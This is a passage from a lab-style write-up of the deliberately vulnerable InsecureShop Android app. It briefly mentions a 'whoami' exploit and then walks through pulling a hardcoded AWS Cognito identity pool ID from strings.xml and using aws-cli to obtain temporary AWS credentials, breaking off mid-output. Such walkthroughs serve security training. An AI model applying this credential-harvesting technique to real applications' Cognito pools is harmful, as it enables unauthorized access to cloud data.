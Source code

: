 The exploit worked, and we ran the `whoami` command with the Insecureshop app ID and were able to list its directory.

## **AWS Cognito Misconfiguration**

> **Description:** InsecureShop application implements misconfigured AWS Cognito instance that can be used to access AWS S3 bucket. Can you find the content or access files within the S3 bucket? If you can solve this one, you'll get a V-Cola :) 🍺

As I don’t know anything about the AWS cognito, I have followed this article to help solve this challenge:

[Exploiting weak configurations in Amazon Cognito in AWS](https://blog.appsecco.com/exploiting-weak-configurations-in-amazon-cognito-in-aws-471ce761963)

Let’s give a quick introduction to the AWS cognito:

AWS Cognito is an Amazon Web Service that provides authentication, authorization, and user management for web and mobile apps. It allows developers to add sign-in and sign-up functionality to their applications, handle user sessions, and manage permissions across AWS services. Cognito offers two main components:

1. **User Pools**: Manage user authentication and provide features like MFA and password recovery.
2. **Identity Pools**: Grant temporary access to AWS resources like S3, DynamoDB, etc., using either authenticated or unauthenticated identities.

At the beginning, I searched for the hardcoded credentials with `Jadx-gui` and it was embedded in the strings.xml file.

```
us-east-1:7e9426f7-******-8689-00a9a4b65c1c
```

![image.png](/assets/InsecureShop/image%2023.png)

So what we have is an `aws_Identity_pool_ID` we can use it to get temporary access to AWS resources. Let’s use the `aws-cli` for that:

```bash
# Getting the Identity ID
┌──(root㉿kali)-[~]
└─$ aws cognito-identity get-id --identity-pool-id us-east-1:7e9426f7-*****8689-00a9a4b65c1c --region us-east-1 
{
    "IdentityId": "us-east-1:15f0125a-*****-4f0a-43cd212fed35"
}
 
# Getting temporary creds                        
┌──(root㉿kali)-[~]
└─$ aws cognito-identity get-credentials-for-identity --identity-id us-east-1:15f0125a-*****-4f0a-43cd212fed35 --region us-east-1
{
    "IdentityId": "us-east-1:15f0125a-1ff0-*****-43cd212fed35",
    "Credentials": {
        "AccessKeyId": "ASIARL4*****HNH6",
```